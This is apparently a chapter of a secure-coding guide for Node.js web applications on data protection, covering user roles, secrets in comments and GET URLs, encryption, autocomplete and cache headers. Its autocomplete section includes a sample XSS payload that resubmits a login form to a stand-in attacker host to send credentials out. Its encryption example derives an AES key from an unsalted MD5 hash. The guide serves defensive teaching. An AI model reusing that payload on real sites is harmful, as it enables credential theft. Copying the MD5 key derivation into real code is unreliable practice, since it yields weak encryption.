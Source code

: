 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this
section we will take a look at the different ways to secure it.

One of the first things you should take care of, is creating and implementing the
right privileges for each user and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices][2] section.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// Secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has an endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. data could be intercepted if not using HTTPS by MITM attacks;
2. browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```JavaScript
const http = require('http');

var options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

callback = function(response) {
  var str = '';

  //another chunk of data has been recieved, so append it to `str`
  response.on('data', function (chunk) {
    str += chunk;
  });

  //the whole response has been recieved, so we just print it out here
  response.on('end', function () {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If you web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine that the user has expired credit cards on
his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

Also important is to ensure no server-side source code can be downloaded or
accessed by a user.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application.
See the [Cryptographic Practices][2] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][3] section) or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.

This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.JS using the
`crypto` package:


```JavaScript
'use strict';
const crypto = require('crypto');

// get password's md5 hash
let password = 'test';
let password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
let data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
var iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
let cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
let encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][4], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a Cross-Site Scripting vector is present in the login page.
If the malicious user creates a payload like:

```JavaScript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```JavaScript
//Express application
[...]

app.use(function (req,res,next){
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate')
  res.header('Pragma', 'no-cache')
  next()
});

[...]
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and
must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: ./access-control/README.md
[2]: ./cryptographic-practices/README.md
[3]: ./database-security/README.md
[4]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
